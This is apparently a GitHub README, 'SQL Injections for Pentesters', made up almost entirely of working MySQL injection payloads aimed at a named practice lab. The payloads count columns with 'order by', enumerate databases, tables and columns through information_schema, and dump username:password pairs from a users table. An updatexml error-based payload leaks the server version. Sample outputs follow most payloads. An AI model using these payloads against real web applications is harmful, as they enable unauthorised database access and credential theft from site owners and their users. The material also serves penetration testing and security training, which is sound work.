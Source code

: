 # SQL Injections for Pentesters

by: @Anake    (Anakein)
email: anakein [@] protonmail [dot] ch

Hello my friends, this is my repo about sql injections. 

References:

 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 
 http://www.securityidiots.com/Web-Pentest/SQL-Injection
 
 
LAB: http://leettime.net/sqlninja.com/index.php


```
select * from table_name where id=23

select * from table_name where id='23'

select * from table_name where id="23"

select * from table_name where id=(23)

select * from table_name where id=('23')

select * from table_name where id=("23")


+--------+------------------------------+
|Comment	|	      Name                   | 
+--------+------------------------------+
|--	     :	MySQL Linux Style            |
|--+	    :	MySQL Windows Style          |
|#	      :	Hash (URL encode while use)  |
|--+-	   :	SQL Comment                  |
|;%00	   :	Null Byte                    |
|`       : Backtick                     |
+--------+------------------------------+

```

## MYSQL Union Based

### Extract database with information_schema

First you need to know the number of columns, you can use `order by`

```sql
order by 1
order by 2
order by 3
...
order by XXX
```

OR

`1' order by 1,2,3%23`



Then the following codes will extract the databases'name, tables'name, columns'name.

#### Extract DATABASE NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c),3+fRoM+information_schema.schemata%23`

OUTPUT:     leettime_761wHole

#### Extract TABLES NAME

`1' UniOn Select 1,gRoUp_cOncaT(0x7c,table_name,0x7C),3+fRoM+information_schema.tables+wHeRe+table_schema=database()%23`

OUTPUT:     |testtable1|,|userlogs|,|users|

#### Extract COLUMNS NAME

>>> REMEMBER USE SINGLE QUOTE  

```

In mysql there is a particularity

String inside strings duplicate quotes!

' blablabla ''string'' '

String >> string >> string

'blablabla '' blablabla '''' string '''' '' '

This used with frequency in mysql links.

```


`1' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7C),3+fRoM+information_schema.columns+wHeRe+table_name='users'%23`

OUTPUT:    |id|,|username|,|password|,|user_type|,|sec_code|  

#### EXTRACT DATA

`1' union Select all 1,group_concat(0x7c,username,0x3a,password,0x7c),3 from users%23`

OUTPUT: |injector:khan|,|decompiler:hacktract|,|devilhunte:dante|,|Zen:sec-idiots|,|Zenodermus:security-i|,|grayhat:hacker|,|khan:haxor|,|admin:sadmin|

OR you can add limit using the `limit 0,1`, `limit 1,1`, `limit 2,1`...

`1' union Select 1,concat(username,0x3a,password),3 from users limit 2,1%23`

OUTPUT: decompiler:hacktract

## MYSQL Error Based

find errors, and interpreter. For example:

```
1'   out: 1' limit 1'
1/   out: error
1*   out: error
1--  out: no error  (Booowww)
1-- -  out: no error

Continue

1 and true;-- -    out: no error [Normal page]
1 and false;-- -   out: Invalid Input parameter [Error page]
```

##### Finding out the number of columns

```
1 order by 7-- -   out: error (Unknown column '7' in 'order clause')
1 order by 5-- -   out: no error  (us have 5 columns)

```

##### First lets try Union Based Injection.

`1 union select 1,2,3,4,database() -- -`   #No erro (loadpage normally)

Remember to invalidate the first input as i did by making it `-1`

`-1 union select 1,2,3,4,database() -- -`

OUTPUT: Username is : 2

2 is reference to the injectable field

`-1 union select 1,database(),3,4,5 -- -`

OUTPUT: Username is : leettime_761wHole







### UpdateXML function

`AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)--`

OUTPUT: Error While Selection process : XPATH syntax error: '~5.6.44-cll-lve~'






Credits: @zc00l
